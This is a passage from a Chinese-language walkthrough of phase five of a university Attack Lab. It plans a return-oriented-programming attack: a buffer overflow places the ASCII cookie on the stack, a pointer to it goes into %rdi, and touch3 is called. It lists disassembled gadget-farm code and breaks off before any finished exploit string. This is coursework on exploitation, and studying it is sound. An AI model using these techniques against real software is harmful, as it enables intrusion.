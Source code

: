 再次进行测试，就可以发现任务完成：

![img](https://wdxtub.com/images/14554791646804.jpg)

## 第五阶段

接下来到最后一个阶段，其实做的工作是类似的，就是需要把 cookie 转换成 ascii 码通过缓冲区溢出放到栈的某个位置，然后把指向这个字符串的指针放到 `%rdi` 中，最后调用 `touch3` 即可。给出的提示是使用 `movl`（对前四位进行操作）和诸如 `andb %al,%al` 的指令（只对低2位的部分操作），标准答案中最少需要使用 8 个 gadget。

所以老规矩，先把 cookie 转换成 ascii 码

```
0x45374fee -> 34 35 33 37 34 66 65 65
```

复制

然后我们有完整的用来寻找 gadget 的函数库

```
0000000000401a08 <start_farm>:
  401a08: b8 01 00 00 00        mov    $0x1,%eax
  401a0d: c3                    retq   

0000000000401a0e <getval_440>:
  401a0e: b8 48 88 c7 c3        mov    $0xc3c78848,%eax
  401a13: c3                    retq   

0000000000401a14 <addval_394>:
  401a14: 8d 87 58 94 90 90     lea    -0x6f6f6ba8(%rdi),%eax
  401a1a: c3                    retq   

0000000000401a1b <addval_304>:
  401a1b: 8d 87 66 58 90 c3     lea    -0x3c6fa79a(%rdi),%eax
  401a21: c3                    retq   

0000000000401a22 <addval_104>:
  401a22: 8d 87 58 c3 50 83     lea    -0x7caf3ca8(%rdi),%eax
  401a28: c3                    retq   

0000000000401a29 <getval_341>:
  401a29: b8 5b 48 89 c7        mov    $0xc789485b,%eax
  401a2e: c3                    retq   

0000000000401a2f <getval_278>:
  401a2f: b8 41 48 89 c7        mov    $0xc7894841,%eax
  401a34: c3                    retq   

0000000000401a35 <setval_371>:
  401a35: c7 07 49 89 c7 c3     movl   $0xc3c78949,(%rdi)
  401a3b: c3                    retq   

0000000000401a3c <getval_313>:
  401a3c: b8 8c fa 58 c1        mov    $0xc158fa8c,%eax
  401a41: c3                    retq   

0000000000401a42 <mid_farm>:
  401a42: b8 01 00 00 00        mov    $0x1,%eax
  401a47: c3                    retq   

0000000000401a48 <add_xy>:
  401a48: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  401a4c: c3                    retq   

0000000000401a4d <getval_349>:
  401a4d: b8 89 c1 18 c0        mov    $0xc018c189,%eax
```
